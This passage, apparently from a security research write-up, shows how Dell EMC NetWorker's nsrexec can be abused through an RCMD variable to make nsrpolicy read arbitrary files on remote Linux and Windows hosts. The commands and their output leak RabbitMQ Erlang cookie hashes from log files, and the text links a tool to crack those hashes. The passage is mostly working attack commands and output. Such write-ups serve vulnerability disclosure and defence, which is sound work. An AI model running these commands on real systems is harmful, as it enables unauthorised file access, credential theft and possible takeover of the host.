 ```
[root@networker-client ~]# export RCMD="nsrpolicy input-file -f C:\Windows\.erlang.cookie"
[root@networker-client ~]# nsrexec -c 192.168.121.183
The syntax of this command is:
nsrpolicy input-file
 --file_name               -f <file name>
[--stop_on_error           -S <0/1; default:0 (Do not stop)>]
[--debug                   -D <debug level>]
[--help                    -h]
```

However, we can leak the hash from RabbitMQ logs and crack it using [dedicated tools](https://github.com/gteissier/erl-matter):

```
[root@networker-server ~]# export RCMD="nsrpolicy input-file -f /opt/nsr/rabbitmq-server-3.2.4/var/log/rabbitmq/rabbit@networker-server.log"
[root@networker-server ~]# nsrexec -c 192.168.121.238 2>&1 | grep Command
121415:nsrpolicy: Command from file:
121415:nsrpolicy: Command from file: =INFO REPORT==== 22-Feb-2021::13:32:46 ===
121415:nsrpolicy: Command from file: Starting RabbitMQ 3.2.4 on Erlang R16B03-1
121415:nsrpolicy: Command from file: Copyright (C) 2007-2013 GoPivotal, Inc.
121415:nsrpolicy: Command from file: Licensed under the MPL.  See http://www.rabbitmq.com/
121415:nsrpolicy: Command from file:
121415:nsrpolicy: Command from file: =INFO REPORT==== 22-Feb-2021::13:32:46 ===
121415:nsrpolicy: Command from file: node           : rabbit@networker-server
121415:nsrpolicy: Command from file: home dir       : /nsr/rabbitmq
121415:nsrpolicy: Command from file: config file(s) : (none)
121415:nsrpolicy: Command from file: cookie hash    : gOc/cQw7eTfGpOhV+okBXQ==
121415:nsrpolicy: Command from file: log            : /opt/nsr/rabbitmq-server-3.2.4/sbin/../var/log/rabbitmq/rabbit@networker-server.log
121415:nsrpolicy: Command from file: sasl log       : /opt/nsr/rabbitmq-server-3.2.4/sbin/../var/log/rabbitmq/rabbit@networker-server-sasl.log
121415:nsrpolicy: Command from file: database dir   : /opt/nsr/rabbitmq-server-3.2.4/sbin/../var/lib/rabbitmq/mnesia/rabbit@networker-server
121415:nsrpolicy: Command from file:
--snip--
```

```
[root@networker-client ~]# export RCMD="nsrpolicy input-file -f C:\Windows\System32\config\systemprofile\AppData\Roaming\RabbitMQ\log\rabbit@NETWORKER-WIN.log"
[root@networker-client ~]# nsrexec -c 192.168.121.183 2>&1 | grep Command
121415:nsrpolicy: Command from file:
121415:nsrpolicy: Command from file: =INFO REPORT==== 19-Feb-2021::11:29:07 ===
121415:nsrpolicy: Command from file: Starting RabbitMQ 3.2.4 on Erlang R16B03-1
121415:nsrpolicy: Command from file: Copyright (C) 2007-2013 GoPivotal, Inc.
121415:nsrpolicy: Command from file: Licensed under the MPL.  See http://www.rabbitmq.com/
121415:nsrpolicy: Command from file:
121415:nsrpolicy: Command from file: =INFO REPORT==== 19-Feb-2021::11:29:07 ===
121415:nsrpolicy: Command from file: node           : rabbit@NETWORKER-WIN
121415:nsrpolicy: Command from file: home dir       : C:\Windows
121415:nsrpolicy: Command from file: config file(s) : (none)
121415:nsrpolicy: Command from file: cookie hash    : 2HOFPWBXNZ3XmdRzs2x+cQ==
121415:nsrpolicy: Command from file: log            : C:/Windows/system32/config/systemprofile/AppData/Roaming/RabbitMQ/log/rabbit@NETWORKER-WIN.log
121415:nsrpolicy: Command from file: sasl log       : C:/Windows/system32/config/systemprofile/AppData/Roaming/RabbitMQ/log/rabbit@NETWORKER-WIN-sasl.log
121415:nsrpolicy: Command from file: database dir   : c:/Windows/system32/config/systemprofile/AppData/Roaming/RabbitMQ/db/rabbit@NETWORKER-WIN-mnesia
```
